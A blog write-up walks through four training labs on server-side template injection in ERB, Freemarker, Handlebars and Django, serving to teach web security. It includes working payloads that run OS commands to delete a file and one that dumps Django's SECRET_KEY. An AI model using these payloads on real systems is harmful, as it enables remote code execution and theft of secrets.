 ```yaml
---
layout: post
title: SSTI write-up
date: 2025-10-17
categories: web-security
tags: [ssti, pentesting]
---
```

# High-level summary
Server-side template injection (SSTI) occurs when user-supplied input is rendered inside a server-side template without proper sanitization. SSTI can allow attackers to execute arbitrary code, access sensitive objects, or manipulate server-side logic. These labs demonstrate SSTI in multiple template engines: ERB (Ruby), Freemarker (Java), Handlebars, and Django, showing how attackers can exploit template engines to perform destructive or sensitive operations safely in a lab environment.

---

## Lab 1 — Basic server-side template injection (ERB / Ruby)

**What this teaches:** How unsanitized template input can be used to execute system commands in ERB templates.

**Simple beginner walkthrough:**

1. Open the lab and view the first product details.
2. Observe that a `message` parameter is rendered in the template. Test with `<%= 7*7 %>` to confirm that expressions are evaluated.
3. From Ruby documentation, discover that the `system()` method can execute OS commands.
4. Construct the payload `<%= system("rm /home/carlos/morale.txt") %>` and URL-encode it.
5. Add the payload to the `message` parameter in the URL:
   `https://YOUR-LAB-ID.web-security-academy.net/?message=<%25+system("rm+/home/carlos/morale.txt")+%25>`
6. Load the URL to execute the command and solve the lab.
![image alt](https://github.com/Lispectree/web-sec/blob/f3b5431ec59b77905e0167b5eb2fcec0b9553971/web-security-labs/labs/server-side-template-injection/SSTI%20LAB1%20PHOTO1.jpg)
Notice that OS commands injected to the query can be executed


![image alt](https://github.com/Lispectree/web-sec/blob/3b0b1bac453e880618c0e12bbb8a2120b3f49ac8/web-security-labs/labs/server-side-template-injection/SSTI%20LAB1%20PHOTO2.jpg)
Input a command to delete a user file



## Lab 2 — Server-side template injection using documentation (Freemarker / Java)

**What this teaches:** How reading template engine documentation can guide the creation of SSTI exploits in Freemarker templates.

**Simple beginner walkthrough:**

1. Log in and edit a product description template.
2. Identify Freemarker syntax using `${someExpression}`.
3. Study the documentation for the dangerous `new()` built-in and locate the `Execute` class to run OS commands.
4. Construct the payload:
   `<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("rm /home/carlos/morale.txt") }`
5. Save the template and view the product page. The command executes and the lab is solved.

![image alt](https://github.com/Lispectree/web-sec/blob/564e8b26e65374170a1ccc6eec3cd54e546ff492/web-security-labs/labs/server-side-template-injection/SSTI%20LAB2%20PHOTO1.jpg)
The template
But we don’t know the documentation being used


![image alt](https://github.com/Lispectree/web-sec/blob/37eb03c3d2b776e40e6d8c3ff307b83c303ef87e/web-security-labs/labs/server-side-template-injection/SSTI%20LAB2%20PHOTO2.jpg)
An error discloses it is freemarker


![image alt](https://github.com/Lispectree/web-sec/blob/d685ff20541e5c9f56c9add35f4be23429ebf185/web-security-labs/labs/server-side-template-injection/SSTI%20LAB2%20PHOTO3.jpg)
We remove the file as instructed in the lab


## Lab 3 — SSTI in an unknown template language with documented exploit (Handlebars)

**What this teaches:** How to exploit SSTI in an unfamiliar template engine by adapting a publicly documented exploit.

**Simple beginner walkthrough:**

1. Log in and edit a product description template.
2. Introduce an invalid template expression to detect the engine. Errors hint that Handlebars is in use.
3. Adapt the documented exploit by @Zombiehelp54 to execute system commands.
4. URL-encode the payload and set it as the `message` parameter in the URL.
5. Load the URL to execute the command (`rm /home/carlos/morale.txt`) and solve the lab.

![image alt](https://github.com/Lispectree/web-sec/blob/853fc0ce8ae45a03b3a60c4126dd44940fdab95c/web-security-labs/labs/server-side-template-injection/SSTI%20LAB3%20PHOTO1.jpg)
Brute force to find with type of template is being used


![image alt](https://github.com/Lispectree/web-sec/blob/a6134526b6f766f240db44e2be343074ccd88a7e/web-security-labs/labs/server-side-template-injection/SSTI%20LAB3%20PHOTO2.jpg)
An verbose error shows it is handlebars


---

## Lab 4 — SSTI with information disclosure (Django)

**What this teaches:** How SSTI can be used to access sensitive framework objects, such as Django’s `settings.SECRET_KEY`.

**Simple beginner walkthrough:**

1. Log in and edit a product description template.
2. Introduce an invalid template expression (e.g., `$ {{<%[%'"}}% \`) to detect Django.
3. Use `{% debug %}` in the template to enumerate accessible objects. Notice the `settings` object.
4. Access the secret key using `{{settings.SECRET_KEY}}`.
5. Save the template and submit the rendered key to solve the lab.


![image alt](https://github.com/Lispectree/web-sec/blob/5366493f37bedf9eb7fb2485eac0a6e4a4dd074c/web-security-labs/labs/server-side-template-injection/SSTI%20LAB4%20PHOTO1.jpg)
Verbose error discloses it is using Django


![image alt](https://github.com/Lispectree/web-sec/blob/54c17dddd5d1b153a491c1f987c82da27ffaf3eb/web-security-labs/labs/server-side-template-injection/SSTI%20LAB4%20PHOTO2.jpg)
Access the secret key


